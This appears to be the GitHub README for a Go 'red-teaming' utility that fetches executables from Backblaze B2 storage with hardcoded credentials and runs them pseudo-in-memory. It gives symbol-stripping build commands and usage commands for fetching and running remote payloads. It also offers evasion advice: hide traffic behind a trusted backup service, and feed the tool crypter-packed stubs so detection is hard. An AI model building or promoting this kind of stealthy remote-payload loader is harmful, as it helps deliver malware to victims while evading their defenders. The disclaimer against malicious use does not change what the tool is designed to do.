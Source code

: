 # Backblaze Memexec 

this is a POC redteaming Go utility that downloads any executable directly from Backblaze B2 cloud storage and executes them stealthily (the goal was pure in memory execution, but there are no golang packages that exist for this purpose, all involve
writing the bytes to an executable in /temp and then invoking it.)

## Features
- Download payloads from a corporate trusted source, if the target is using this as a backup service, it will be very hard to detect.
- Execute payloads pseudo in memory (especially useful if the payload you're executing is a stub of your executable created by https://github.com/carved4/gocrypter or a similar tool)
- Fully modular, payloads can be changed with the ease of a GUI upload to backblaze.
- Backblaze does not require a credit card or insecure email service to sign up.
- Bucket can be switched out easily via changing the hardcoded account ID, application key, and bucket name.
## Installation

```bash
go get github.com/carved4/backblaze-memexec
# Or clone the repository and build it manually
git clone https://github.com/carved4/backblaze-memexec.git
cd backblaze-memexec
# change the account ID, application key, and bucket name in the code.
go build -ldflags="-w -s" -trimpath -o backblaze.exe
# or for linux
GOOS=linux GOARCH=amd64 go build -ldflags="-w -s" -trimpath -o backblaze
```

## Usage

```bash
# Runs the default executable (test.exe) from the default bucket AFTER changing the account ID, application key, and bucket name in the code. 
# also, I recommend changing the DefaultExecutable in main.go from 'test.exe' to whatever the name of your file is before building so you don't have to pass in CLI args.
./backblaze.exe

# Run a specific executable from the default bucket
./backblaze.exe -file my_program.exe
# or
./backblaze.exe my_program.exe

# Run with arguments
./backblaze.exe -args "arg1,arg2,arg3"

# Run a different executable with arguments
./backblaze.exe -file other_program.exe -args "arg1,arg2,arg3"
# or
./backblaze.exe other_program.exe -args "arg1,arg2,arg3"
```

## How It Works

uses the [blazer](https://github.com/kurin/blazer) library to interact with Backblaze B2 API and download files. For psuedo in-memory execution, it uses [go-memexec](https://github.com/amenzhinsky/go-memexec) 

The entire process happens as follows:
1. Connect to Backblaze B2 using hardcoded credentials
2. Download the specified executable file (or test.exe by default) into memory
3. Use go-memexec to execute the file
4. Pass any specified arguments to the executed process

## Security Considerations

- Obviosuly do not use an important (non throwaway) bucket for this, as reverse engineering of the binary may yield the plaintext creds
- The tool does not verify the integrity of downloaded executables
- I am not responsible for your actions, do not use this for malicious purposes.

## Requirements

- Go 1.18 or higher
- Valid Backblaze B2 bucket with appropriate executables

## License

[MIT License](LICENSE) 

